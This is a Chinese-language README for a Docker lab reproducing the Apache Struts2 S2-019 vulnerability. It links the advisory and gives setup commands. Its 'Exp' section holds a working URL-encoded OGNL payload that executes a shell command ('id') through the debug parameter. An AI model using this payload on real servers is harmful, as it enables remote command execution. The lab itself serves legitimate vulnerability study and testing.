

## Struts2 S2-019 漏洞环境

### 漏洞信息

 * [S2-019 公告](http://struts.apache.org/docs/s2-019.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-019
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-019
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
?debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27id%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28%27dbapp%3A%27%2bnew%20java.lang.String%28%23e%29%29%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29%0A
```



